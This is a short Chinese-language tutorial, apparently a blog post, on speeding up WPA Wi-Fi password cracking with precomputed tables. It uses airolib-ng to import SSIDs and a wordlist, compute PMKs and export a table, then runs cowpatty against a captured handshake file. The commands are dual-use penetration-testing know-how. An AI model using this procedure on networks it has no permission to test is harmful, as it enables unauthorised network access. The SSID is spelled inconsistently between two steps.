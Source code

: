 # WPA渗透-使用airolib-ng创建彩虹表加速

## 1.什么是彩虹表?

彩虹表是一一个用于加密散列函数逆运算的预先计算好的表，为破解密码的散列值(或称哈希值、微缩图、摘要、指纹、哈希密文)而准备。一般主流的彩虹表都在100GB以上。这样的表常常用于恢复由有限集字符组成的固定长度的纯文本密码。

## 2.渗透wifi

### 1.创建数据库名

```
airolib-ng [数据库名] --import essid [一个或者多个ssid的文件]

airolib-ng RINBOW1 --import essid wifi.txt
```

![image-20230419144927041](https://img.gyxnb.top/img/image-20230419144927041.png)

### 2.将字典导入数据库

```
airolib-ng [数据库名] --import passwd [字典]

airolib-ng RINBOW1 --import passwd /root/wifi/passwd.txt
```

### 3.生成渗透wifi密码的PMK

```
airolib-ng [ 数据库名] --batch

airolib-ng RINBOW1 --batch
```

### 4.生成需要渗透wifi的彩虹表

```
airolib-ng [数据库名] --export cowpatty [ssid][表名]

airolib-ng RINBOW1 --export cowpatty cisco-1809 R_RINBOW1
```

### 5.渗透wifi

```
cowpatty -s [ssid] -d [表名] -r [抓到的cap握手包]

cowpatty -s cisC0-1809 -d R_RINBOW1 -r wpa-1-01.cap
```

